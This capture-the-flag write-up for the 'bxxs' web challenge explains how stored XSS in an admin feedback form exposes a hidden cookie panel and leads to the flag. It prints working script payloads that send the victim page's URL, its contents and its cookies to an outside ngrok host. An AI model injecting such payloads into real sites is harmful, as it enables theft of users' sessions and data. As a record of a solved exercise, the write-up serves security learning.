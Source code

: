 ```yaml
---
description: XSS leads to information leakage of hidden endpoint and authentication bypass.
---
```


# bxxs

## Problem

We've made some new epic updates to our website. Could you send us some feedback on it?

## Solution

We are given an endpoint that allows us to "Send a feedback to admin". I tried submitting URLs but these had no effect.

![](<../../.gitbook/assets/image (7).png>)

Later, I found that we could submit arbitrary HTML that would be rendered by the admin's browser. This could be verified by submitting the following and catching the HTTP request:

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/"; </script>
```

It is then trivial to obtain more information from the victim's browser. 

We still don't know how exactly our submitted HTML is handled. Where is it rendered and in what context? To answer that question, I tried the following payload to get the page URL, contents and cookie.

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?url=" + escape(window.location.href); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?doc=" + escape(document.body.innerHTML); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?cookie=" + escape(document.cookie); </script>
```

`window.location.href` gives us the full URL of the browsing context, `document.body.innerHTML` gives us the page contents, and `document.cookie` gives us any cookies that could be read by JavaScript (those without the HttpOnly flag set).

From the output, it appeared that:

* The page URL is `http://0.0.0.0/Secret_admin_cookie_panel`
* Our submitted HTML was the only content present on the page.
* JavaScript could not read any cookies.

My teammate rainbowpigeon then visited the `/Secret_admin_cookie_panel` endpoint and found that this page returned a `Set-Cookie` header for a new cookie with the HttpOnly flag set. This was the "admin cookie" we needed.

![](<../../.gitbook/assets/image (5).png>)

My teammate lim_yj found that there is a `/flag` endpoint, previously inaccessible without the appropriate cookie.

Visiting the page again with the admin cookie set gives us the flag.

![](<../../.gitbook/assets/image (6).png>)

